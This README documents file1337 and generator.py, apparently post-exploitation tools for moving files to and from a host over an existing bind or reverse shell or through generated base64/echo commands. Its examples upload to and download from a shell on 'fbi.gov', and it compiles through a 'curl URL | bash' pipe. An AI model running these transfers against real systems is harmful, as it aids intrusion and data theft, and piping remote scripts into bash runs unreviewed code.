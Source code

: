 # file1337

`file1337` might help if you have a bind or reverse shell working and want to transfer files without any additional servers involved. This experimental tool does nothing special and doesn't do that well.

`generator.py` may help if you can execute shell commands on the target programatically, but have no access to `stdin`. It's most likely possible to upload arbitrary file through a series of shell commands which it generates.

## file1337

For bind shell:
```
file1337 d|u [-d driver] [-o offset] HOST PORT source_file [target_file = basename]
```

For reverse shell:
```
file1337 d|u [-d driver] [-o offset] -l listen_port source_file [target_file = basename]
```

Target needs to be compatible with at least one driver (default is `shell`):
* `shell` - requires... a shell... and `echo`, `stat`, `chmod`, `cat` and `dd` (`dd` only for download).
* `shell_nodd` - same as above but doesn't use `dd`, and doesn't support offsets
* `perl` - tested on latest version which is often not the case, but doesn't use any fancy features.

`file1337` tries to preserve basic file permission bits, so no need to `chmod +x` after uploading binaries.

### This sucks
Of course it does, since it's written by zb3. But `file1337` also:
* Doesn't support files larger than 4GB.
* Supports only files, not directories.
* Gives no feedback. Files may be uploaded partially, not at all, or contain garbage at the end. `file1337` is too primitive to handle these cases. How should it handle network connection loss  when expecting a reverse shell? It's out of scope. Only a warning will appear.

### Example

So you have a bindshell running on `fbi.gov` on port `3243` and you want to upload `me.txt` as `/fbi/mostwanted/zb3.txt` on the target. The command is:
```
file1337 u fbi.gov 3243 me.txt /fbi/mostwanted/zb3.txt
```


To listen for a reverse shell on port `22633`, use:
```
file1337 u -l 22633 me.txt /fbi/mostwanted/zb3.txt
```

Downloading files works similar way:
```
file1337 d fbi.gov 3243 /fbi/investigation_info/zb3.txt
```

If it turns out only `X` bytes were transfered, repeat the previous command with `-o X` to resume the transfer (you must supply that value manually). `shell_nodd` driver doesn't support doing that.

### Compiling

It can compile itself, see [this gist](https://gist.github.com/zb3/74125fb1af82c2474e2e4a8e4704cb96)
```
curl URL | bash
```
will compile into `file1337` file and execute (show help).


## generator.py

If you can only execute shell commands, and have no access to their `stdin` (which is quite common) there may be multiple ways to upload binary files via shell commands which this script generates.

Again, there are "drivers":
* `shell` - just `cat BASE64 | base64 -di >> target`
* `shell_en` - just `echo -en ESCAPED >> target`
* `perl` - uses base64 too


Since command length is usually limited (around 130KB), it can generate more than one command. By default the limit is 130KB, but it may be much less on the target.

See `gentest.py` for (short circuit) usage example.